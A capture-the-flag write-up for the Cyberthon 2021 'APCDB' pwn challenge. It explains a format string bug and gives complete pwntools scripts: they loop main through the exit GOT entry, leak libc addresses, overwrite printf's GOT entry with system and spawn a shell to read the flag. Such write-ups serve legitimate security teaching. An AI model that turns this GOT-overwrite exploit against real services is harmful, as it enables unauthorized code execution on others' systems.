 ```yaml
---
type: ctf
title : Cyberthon 2021 Finals - APCDB (pwn)
tags: [Cyberthon CTF, feuerfuchs challenge]
date : 2021-05-19
author: Eno Leriand
featuredImage: https://upload.wikimedia.org/wikipedia/commons/5/52/Cyberthon_2021.png
---
```


> We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. Could u try to break in anyway? Who knows, access to this server might come in useful.
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30201
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcdb.zip](/Files/apcdb.zip)

## Overview

```cpp
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setup_IO(argc, argv, envp);
  banner();
  printf("[+] Contact Lookup: ");
  __isoc99_scanf("%255s", format);
  puts(s);
  printf("[+] Looking up contact for ");
  printf(format);
  puts("...");
  puts("[-] Sorry, no such member!");
  exit(0);
}
```

Let's break down what the program is doing here:

1. It prints a **banner()**
2. It scans in **%255s** worth of input into `format[264]`. _no bof :(_
3. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
4. It then exits the program.

## Exploitation Ideas

It is apparent that we have to use the format string exploit in order to win, as it is the only exploit available to us.

However, there is no function that prints the flag or grants us a shell. System function is also **not imported** in this binary.

Hence it becomes apparent that we have to call system with a **ret2libc** attack.

Hence the idea is as such:

1. We have to first loop the program back so that our program doesnt just simply close after one loop.
2. We have to leak the LIBC of the functions so we are able to find the LIBC used and obtain our offset.
3. Find an ideal function to overwrite such that we can execute `system('/bin/sh')` and obtain a shell. _the only function that seems usable is printf_

Let's get started.

## Exploitation

Our first objective is to loop the program back continuously. This can be done by overwriting **GOT entry for exit() to the address of main**.

This is so that everytime the program tries to exit, it goes back to main instead.

Since PIE is not enabled, our GOT addresses will remain constant so we can easily find the addresses we need, made even easier with pwntools.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)

context.binary = elf = ELF('apcdb')
exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))
p.interactive()
'''
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/abcdb/apcdb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

 ] Exit: 0x601040
'''
```

Next, we find the offset of our input with a simple payload ```AAAAAAAA.%p.%p.%p.%p.%p.%p```.

![image](https://user-images.githubusercontent.com/76640319/117538307-3217a680-b038-11eb-8bf8-9b51e4f6af43.png)

As you can see, our input offset is just nice on the 6th format string. Hence our offset is 6.

With that, we have everything we need to leak our global offset table values.

Initially, I tried sending `p.sendline(p64(elf.got.printf) + b'%6$s')` to the program. However it did not yield me my expected leak.

This is because the scanf only reads up till the null terminator. Consider this:

![image](https://user-images.githubusercontent.com/76640319/117538662-d5b58680-b039-11eb-86d9-715a1a9f1ab2.png)

Anyways, this means that we will have to put our format string at the start and our leak behind.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")


p.interactive()

'''
[*] Printf is 0x7f4b82cb6f70
[*] Puts is 0x7f4b82cd2aa0
'''
```

By looking up the addresses of printf and puts in blukat, we find our libc.

![image](https://user-images.githubusercontent.com/76640319/117539045-47da9b00-b03b-11eb-94a6-fd8bbc54dd2c.png)

We can now calculate the libc base by using our leak to minus the libc symbol.

With the libc base, we can find libc symbol for system, thus allowing us to overwrite **printf GOT entry with libc system**.

Thus the next time we send **/bin/sh\x00** as our input, it will be executed by system rather than printf and we get a shell.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")

libc.address = printf - libc.sym.printf

p.sendline(fmtstr_payload(6, {elf.got.printf: libc.sym.system}))

p.sendline('/bin/sh\x00')
p.clean()
p.sendline('cat */*/flag*')
print(p.recvline())
```

<br><br>

**Cyberthon{f4k3_c0nt4ct5_f41lur3}**
